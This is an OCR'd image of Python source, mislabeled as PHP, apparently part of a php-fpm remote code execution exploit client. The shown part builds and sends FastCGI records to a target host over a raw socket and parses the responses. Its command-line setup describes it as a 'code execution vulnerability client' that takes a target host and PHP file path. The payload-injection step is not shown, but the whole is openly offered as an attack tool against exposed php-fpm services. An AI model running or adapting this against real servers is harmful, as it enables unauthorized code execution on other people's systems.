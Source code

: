 ```php
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
```